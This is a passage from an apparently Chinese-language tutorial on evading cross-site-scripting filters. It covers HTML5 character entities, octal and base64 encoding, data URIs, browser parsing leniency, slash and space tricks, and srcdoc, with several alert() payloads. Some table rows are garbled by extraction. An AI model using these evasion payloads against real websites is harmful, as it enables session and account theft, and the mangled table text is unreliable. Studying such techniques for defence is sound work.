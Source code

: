 ```
> encodeURIComponent("<#")
> "%26%23"

```

<p><strong>4. 利用 HTML5 新增字符</strong></p>

```
<colon; 冒号
<NewLine; 换行

<a href="javascr<NewLine;ipt<colon;alert(" barret李靖")"="">XSS</a>

```

<p><strong>5. JS进制转换</strong></p>

```
> "\74\163\143\162\151\160\164\76\141\154\145\162\164\50\61\51\74\57\163\143\162\151\160\164\76"
> "<script>alert("Barret李靖")</script>"

```

<p><strong>6. Base64转换</strong></p>

```
> base64("<script>alert("Barret李靖")</script>");
> PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

<a href="data:text/html;base64, PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">XSS</a>

```

<p><strong>7. 浏览器解析非严格性</strong></p>

```
<img src="image.jpg" title="Hello World" class="test">
  ↓ ↓    ↓        ↓      ↓            ↓
  ①②   ③        ④     ⑤           ⑥

```

<p>①中可插入 NUL字符（0x00）</p>
<p>②和④中空格可以使用 tab（0x0B）与换页键（0x0C），</p>
<p>②还可以使用 / 替换</p>
<p>⑤中的"在IE中也可替换成`。</p>

```
   位置      |        代码               | 可能插入或替代的代码
------------|---------------------------|-----------------------
<的右边 |="" <[here]a="" href="...        | 控制符，空白符，非打印字符
a标签的后门  | <a[here]href=" ...="" 同上="" href属性中间="" <a="" hr[here]ef="...        | 同上+空字节
=两边       | <a href[here]=[here]" 所有字符="" 替换="|" href[here]"...="" union编码符号="" 替换"="">    | 其他引号
>之前       | <a href="..." [here]="">        | 任意字符
/之前       | <a href="...">...<[here] a=""> | 空白符，控制符
/之后       | <a href="...">... | 空白符，控制符
>闭合之前    | <a href="...">...  | 所有字符

```
</a></a></[here]></a></a></的右边>
<p><strong>8. 斜杠</strong></p>
<p>在字符串中斜杠（/）可以用于转义字符，比如转义 " 和 ' ，双斜杠（//）可以用来注释。这样可以很轻松的改变之前的语句，注入内容。</p>
<p><strong>9. 空格的处理方式</strong></p>
<p>在解析的时候空格被转移成 <code><nbsp;</code>,注入的时候可以使用 <code>/**/</code>来替换。</p>
<p><strong>10. 特殊属性</strong></p>
<p>1）srcdoc属性（chrome有效）</p>
